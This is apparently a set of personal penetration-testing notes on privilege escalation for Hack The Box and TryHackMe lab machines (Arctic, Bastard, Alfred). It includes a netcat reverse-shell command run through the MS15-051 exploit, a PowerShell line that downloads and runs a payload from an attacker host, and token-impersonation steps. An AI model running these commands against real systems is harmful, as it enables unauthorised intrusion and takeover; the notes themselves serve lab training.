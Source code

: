 - 5 machines

	Arctic (HTB)
	
	Bastard (HTB)
	
	Alfred (THM)
	
	Bastion (HTB)
	
	Querier (HTB)



## Arctic
```bash
nothing new. 
enumeration...
a vulnerable service
searchsploit <service>
run and get a shell
then run something like powerup, windows_vulnerability_check whatever
vuln MS010-059 exploit, run > root
```

## Bastard
Basic PowerShell For Pentesters - https://book.hacktricks.xyz/windows/basic-powershell-fFor-pentesters

- This time we are gonna run Sherlock.ps1

Add this to the last line:
```bash
echo 'Find-AllVuns' >> Sherlock.ps1
```

> MS15-051 found.
search in For exploit in git or exploit-db

Send the ms15-051 exploit & nc.exe to the machine
then:
```bash
ms15-051.exe "nc.exe <kali ip> <port> -e cmd.exe"
# open a listener
```

## Alfred
```bash
jenkins > admin:admin
projects > build command
nishang
systeminfo
msfconsole listener
msfvenom windows payload

# Grab the file:
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<kali ip>/shell.exe', 'shell.exe')"
python web server etc

# To start the exploit:
Start-Process "shell.exe"

load incognito
getprivs
list-tokens -u

# Lets try to impersonate the aythority\system
```
